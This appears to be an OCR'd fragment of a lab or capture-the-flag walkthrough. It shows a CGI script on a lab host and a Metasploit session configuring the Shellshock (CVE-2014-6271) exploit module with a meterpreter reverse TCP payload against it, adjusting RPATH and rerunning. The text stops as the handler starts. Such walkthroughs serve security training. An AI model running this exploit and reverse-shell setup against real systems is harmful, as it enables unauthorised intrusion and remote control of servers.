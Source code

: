 ```
$ cat user.sh                   
Content-Type: text/plain

Just an uptime test script

 16:32:57 up  1:12,  0 users,  load average: 0.05, 0.14, 0.09
```


```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting   Required  Description
   ----            ---------------   --------  -----------
   CMD_MAX_LENGTH  2048              yes       CMD max line length
   CVE             CVE-2014-6271     yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent        yes       HTTP header to use
   METHOD          GET               yes       HTTP method to use
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.56       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /cgi-bin          yes       Target PATH for binaries used by the CmdStager
   RPORT           80                yes       The target port (TCP)
   SRVHOST         0.0.0.0           yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080              yes       The local port to listen on.
   SSL             false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                 yes       HTTP read response timeout (seconds)
   URIPATH                           no        The URI to use for this exploit (default is random)
   VHOST                             no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.14.20:4444 
[*] Command Stager progress - 100.82% done (1101/1092 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rpath /bin
rpath => /bin
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.14.20:4444 
```